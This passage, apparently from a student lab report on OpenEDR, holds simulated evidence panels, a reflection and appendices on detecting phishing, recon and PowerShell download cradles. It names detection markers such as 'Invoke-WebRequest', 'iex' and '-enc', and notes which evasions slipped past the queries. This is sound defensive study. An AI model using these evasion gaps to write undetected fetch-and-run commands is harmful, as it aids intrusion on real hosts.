

**Figure 33.** Discover-style mock-up of the analyst's pivot on PID 5512, showing all three correlated events.

**Why the query detects this.** S2-01 has `process.name` of `powershell.exe` and a command line containing `Invoke-WebRequest`. The pivot then finds the connection and the file write from the same PID within two seconds, which confirms a download took place.

### Panel D – SOC Overview

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM



**Figure 34.** SOC overview mock-up for the whole simulated run. The Known FP column counts the false-positive cases discussed above.

## 17. Half-Page Reflection

The five detections form a gradient, and the gradient follows how many independent artefacts each technique leaves on the host. S1 sits at the top because it rests on a relationship. Word or Excel has almost no business launching an interpreter, so one process event justifies an alert with no threshold, and an attacker who obfuscates the command line still cannot easily hide that Word launched it. R2 rates highly only for traffic touching the host. A fan-out to many addresses is unmistakable, yet scans between other machines are invisible and inbound probes may be only partly recorded, so endpoint and network telemetry are complementary. S2 sits lower because each element is ambiguous alone, and confidence comes from correlating the execution, outbound connection and file write of one process. R1 is weaker again. Every command is legitimate, so the signal exists only in aggregate, as a behavioural threshold that must be tuned against administrators. S3 is the weakest. Explorer launches interpreters routinely, so the parent proves little and detection rests on command-line keywords, which the attacker controls. In this simulation, the assignment's own harmless paste and a short `-e` switch both escaped the query.

Effort should follow this gradient. Parent-child anomalies justify immediate alerting, while command-line signals are better treated as triage leads. Because detection is thinnest where social engineering strips away artefacts, prevention must carry more of the load: blocking macros in internet-sourced files, restricting interpreters for ordinary users, and training people to distrust "paste this command" requests. Phishing-resistant MFA will not stop a pasted command from running, but it sharply limits what stolen credentials are worth afterwards. Endpoint detection is the last check at first contact, and it cannot replace the controls before it.

## 18. Conclusion

This simulation produced all four assignment deliverables in illustrative form: the setup and checkpoints, five detections with ATT&CK mappings and fidelity ratings, evidence panels for R1, S1 and S2, and the reflection. Its main lesson matches the assignment's: detection confidence falls as a technique leaves fewer artefacts. The exercise also found defects that would only surface in practice, most notably an S3 simulation that does not trigger its own query.

To turn this into real evidence, run the lab, expand one real event in Discover, and replace the assumed field names. Then re-run each query, paying particular attention to the items in Appendix B.

## Appendix A – Issues Found in the Assignment and Brief

| # | Issue | Effect | Treatment here |
|---|---|---|---|
| 1 | S3 simulation command contains none of the S3 query's markers | The simulation would return zero hits | Added an `iex` variant; kept the original as recorded miss S3-01 |
| 2 | `"net view"` is listed under `process.name` in the R1 query | That value can never match | Removed; `net view` matches through `net.exe` |
| 3 | `net.exe` commonly starts `net1.exe`, and both are in the list | Distinct count is inflated by 1 | Shown in the R1 chart; the tuned rule removes it |
| 4 | R2 sweep uses a single port | Distinct `destination.port` = 1 | Threshold uses `destination.ip` for this sweep |
| 5 | `Test-NetConnection` runs sequentially | A real sweep may fall below 20 per minute | Timing flagged as an optimistic assumption |
| 6 | R2 KQL covers outbound only | No query for the inbound case | Added R2-IN |
| 7 | KQL is case-sensitive on keyword and wildcard fields | `*-enc*` misses `-EncodedCommand` | Recorded as miss S3-05; hardening listed |
| 8 | Default mappings break wildcard matching on long strings | Command-line queries can silently fail | Index template maps `wildcard` |
| 9 | The brief named only the PowerShell shape for S2 | The assignment requires two queries | Both included |
| 10 | Isolated host-only network conflicts with S2's public fetch | S2 cannot reach `example.com` | NAT adapter enabled for S2 only |
| 11 | T1218 does not describe PowerShell itself | Mapping is misleading for that shape | T1218 tied to the LOLBin shape |
| 12 | The assignment expects `200 OK` from Kibana and unauthenticated `curl` to Elasticsearch | A secured stack may return a redirect or need credentials | Noted on the simulated evidence |

## Appendix B – Assumptions Register

| Area | Assumption | How to confirm in a real lab |
|---|---|---|
| Environment | Hostnames, IP addresses, versions, PIDs and timestamps are fictional | Replace with real values |
| Windows 11 | The agent runs on Windows 11, which OpenEDR's docs do not state | Install and check `edrsvc` |
| Stack | Compose project, container names, image versions and healthchecks | `docker compose ps` |
| Output layout | `processes[]` holds the parent chain; `childProcess` holds the new process | Expand a real event |
| Event codes | `baseEventType` equals the `LLE_*` enum (1, 3, 39, 40) | Compare with known actions |
| Field mapping | All ECS-style names, the Logstash filter and the index template | Inspect Discover, then adjust |
| Process names | Command-line formats and `net1.exe` spawning are typical behaviour, not captures | Compare with real events |
| Network events | OpenEDR logs failed outbound attempts and probes to closed inbound ports | Run the R2 tests |
| Correlation | Network and file events carry the acting PID; order is exec, connect, write | Pivot on a real cradle |
| Alert rules | Threshold, ES\|QL and EQL examples were not run, and may depend on Kibana version and setup | Test in the deployed version |

## Appendix C – Quality Control

| Check | Status | Where |
|---|---|---|
| All five scenarios covered | Done | Sections 9 to 13 |
| All ATT&CK IDs included | Done | Sections 9 to 14; checked by script |
| Every query matches the synthetic telemetry | Done | Section 15 validation table |
| Three or more scenarios with evidence | Done: R1, S1, S2 | Section 16 |
| Reflection addresses the fidelity gradient | Done | Section 17 |
| Deliverables match the assignment | Done, as simulation only | Assignment PDF read in full; see Appendix A |
| Assumed items and simulated results identified | Done | Section 6, Appendix B, labels on evidence |
| Real screenshots for Checkpoints and Discover | **Not met by design** | These need a real lab run |

## Appendix D – Sources

- Assignment: *OpenEDR Lab · Part 1 — Setup & Detecting Early-Attack Recon and Social Engineering*, 13 pages, dated 26 October 2026.
- OpenEDR repository and getting-started docs: <https://github.com/ComodoSecurity/openedr>
- OpenEDR event enum: <https://raw.githubusercontent.com/ComodoSecurity/openedr/main/edrav2/iprj/libcore/inc/events.hpp>
- OpenEDR policy field bindings: <https://raw.githubusercontent.com/ComodoSecurity/openedr/main/edrav2/iprj/edrdata/compiler.cfg>
- OpenEDR community thread listing real log fields: <https://community.openedr.com/t/what-base-eventtype-values-and-basetype-values-says-in-openedr-logs-in-windows/897>
- MITRE ATT&CK T1204.004 Malicious Copy and Paste: <https://attack.mitre.org/techniques/T1204/004/>
- MITRE ATT&CK Enterprise matrix: <https://attack.mitre.org/>
